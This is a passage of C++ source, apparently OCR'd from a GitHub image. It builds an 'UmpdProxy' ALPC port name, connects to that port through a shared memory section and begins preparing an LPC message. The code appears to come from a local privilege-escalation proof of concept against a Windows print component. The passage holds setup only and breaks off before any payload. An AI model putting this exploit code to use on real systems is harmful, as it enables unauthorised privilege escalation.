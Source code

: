 ```c++
        memset(dst, 0, sizeof(dst));

        if (NtOpenProcessToken(GetCurrentProcess(), 0x20008u, &tokenHandle)
                || ZwQueryInformationToken(tokenHandle, TokenStatistics, tokenInformation, 0x38u, &length))
        {
                return 0;
        }

        wsprintfW(
                dst,
                L"\\RPC Control\\UmpdProxy_%x_%x_%x_%x",
                sessionId,
                tokenInformation[2],
                tokenInformation[3],
                0x2000);
        printf("name: %ls\n", dst);
        RtlInitUnicodeString(DestinationString, dst);

        return 1;
}

HANDLE CreatePortSharedBuffer(PUNICODE_STRING PortName)
{
        HANDLE sectionHandle = 0;
        HANDLE portHandle = 0;
        union _LARGE_INTEGER maximumSize;
        maximumSize.QuadPart = 0x20000;

        if (0 != NtCreateSection(&sectionHandle, SECTION_MAP_WRITE | SECTION_MAP_READ, 0, &maximumSize, PAGE_READWRITE, SEC_COMMIT, NULL)) {
                printf("failed on NtCreateSection\n");
                return 0;
        }
        if (sectionHandle)
        {
                ClientView.SectionHandle = sectionHandle;
                ClientView.Length = 0x30;
                ClientView.ViewSize = 0x9000;
                int retval = ZwSecureConnectPort(&portHandle, PortName, NULL, &ClientView, NULL, NULL, NULL, NULL, NULL);
                if(retval){
                        printf("Failed on ZwSecureConnectPort: 0x%x\n", retval);
                        return 0;
                }
        }

        return portHandle;
}

PVOID PrepareMessage()
{
        memset(&LpcRequest, 0, sizeof(LpcRequest));
        LpcRequest.MessageHeader.DataSize = 0x20;
        LpcRequest.MessageHeader.MessageSize = 0x48;

        LpcRequest.MsgSendLen = 0x88;
        LpcRequest.PtrMsgSend = (UINT64)ClientView.ViewRemoteBase;
        LpcRequest.MsgReplyLen = 0x10;
        LpcRequest.PtrMsgReply = (UINT64)ClientView.ViewRemoteBase + 0x88;

        memcpy(&LpcReply, &LpcRequest, sizeof(LpcRequest));

```